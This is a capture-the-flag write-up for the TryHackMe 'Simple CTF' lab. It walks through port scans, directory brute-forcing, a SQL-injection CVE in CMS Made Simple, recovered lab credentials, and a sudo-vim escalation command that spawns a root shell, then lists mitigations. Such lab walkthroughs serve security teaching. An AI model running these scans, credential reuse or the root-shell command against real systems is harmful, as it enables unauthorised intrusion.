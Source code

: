 ```yaml
---
description: Beginner level ctf
---
```


# Simple CTF

The room can be accessed [here](https://tryhackme.com/room/easyctf)

## Information Gathering

I typically start with a Rustscan, simply because it gives me open ports faster. Once I get this, I might use Nmap for specific ports.

### Rustscan Scan

```bash
┌──(lvksus㉿kali)-[~]
└─$ rustscan -a 10.10.37.78 --ulimit 5000                                  1 ⨯
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/lvksus/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.37.78:21
Open 10.10.37.78:80
Open 10.10.37.78:2222
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:54 EST
Initiating Ping Scan at 22:54
Scanning 10.10.37.78 [2 ports]
Completed Ping Scan at 22:54, 2.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:54
Completed Parallel DNS resolution of 1 host. at 22:54, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:54
Scanning 10.10.37.78 [3 ports]
Discovered open port 21/tcp on 10.10.37.78
Discovered open port 2222/tcp on 10.10.37.78
Discovered open port 80/tcp on 10.10.37.78
Completed Connect Scan at 22:54, 1.45s elapsed (3 total ports)
Nmap scan report for 10.10.37.78
Host is up, received syn-ack (0.20s latency).
Scanned at 2022-02-01 22:54:19 EST for 1s

PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
80/tcp   open  http         syn-ack
2222/tcp open  EtherNetIP-1 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.59 seconds
```

### Nmap Scan

```bash
┌──(lvksus㉿kali)-[~/Documents/tryhackme/simple_ctf]
└─$ nmap -sV 10.10.37.78                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:55 EST
Nmap scan report for 10.10.37.78
Host is up (0.090s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

Right away, seeing port 2222 for SSH is very strange. We see that FTP is using version vsftpd 3.0.3 and the HTTP website is running on Apache version 2.4.18

## Enumeration

### Dirsearch

I use my favorite directory brute-forcer to look for any directories that might seem interesting

```bash
┌──(lvksus㉿kali)-[~]
└─$ dirsearch -u http://10.10.37.78 -w /usr/share/dirb/wordlists/common.txt -x 404 -t 100

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 4613

Output File: /home/lvksus/.dirsearch/reports/10.10.37.78/_22-02-01_23-11-21.txt

Error Log: /home/lvksus/.dirsearch/logs/errors-22-02-01_23-11-21.log

Target: http://10.10.37.78/

[23:11:21] Starting: 
[23:11:30] 200 -   11KB - /index.html                                       
[23:11:35] 200 -  929B  - /robots.txt                                       
[23:11:35] 403 -  299B  - /server-status                                    
[23:11:35] 301 -  311B  - /simple  ->  http://10.10.37.78/simple/           
                                                                             
Task Completed
```

![CMS Made Simple Version](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Made Simple Version.png>)

![CMS Made Simple Admin Login](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Admin Console.png>)

## Vulnerability Assessment

This Content Management System is vulnerable to [CVE-2019-9053: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9](https://www.exploit-db.com/exploits/46635)

### Proof of Concept

As shown in the image below, we see that the site produces output when we use some kind of SQL statement

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_POC.png>)

{% hint style="info" %}
Used this for termcolor issue when trying to run the exploit

[https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/](https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/)
{% endhint %}

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Exploit (1).png>)

### Credentials

username: <mark style="color:green;">`mitch`</mark>\
email: <mark style="color:green;">`admin@admin.com`</mark>\
password: <mark style="color:green;">`secret`</mark>

With these credentials and knowing the fact that SSH port 2222 was open, it would make the most sense to see if we can log into that service

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_ssh+user.txt.png>)

As we see, they work and we are able to grab the user.txt

## Privilege Escalation

Next comes privilege escalation. Let's see what commands mitch is able to run as root

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Pasted image 20220202112308.png>)

Vim is a very powerful text editor. We'll check out the infamous GTFObins for a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

In our case, we want to be able to run Vim in such a way that will grant our low privilege user the ability to become root

[https://gtfobins.github.io/gtfobins/vim/#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_sudo vim.png>)

Just from a simple line of input, we are now root

```bash
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/home$ sudo /usr/bin/vim -c ':!/bin/bash'

root@Machine:/home# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:/home# 
```

## Root Flag

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_rootFlag.png>)

## Mitigations

### **Password Change**

The user 'Mitch' should change their password to something secure such as: <mark style="color:green;">`Jlds#5@asd53Z`</mark>

### **SQLi Sanitization**

* Client-Side and Server-Side input validation and sanitization
* Secure Coding & SDLC

### Removal of root privileges

* Unless there's a justifiable reason that mitch should be able to run Vim as root, those privileges should be taken away
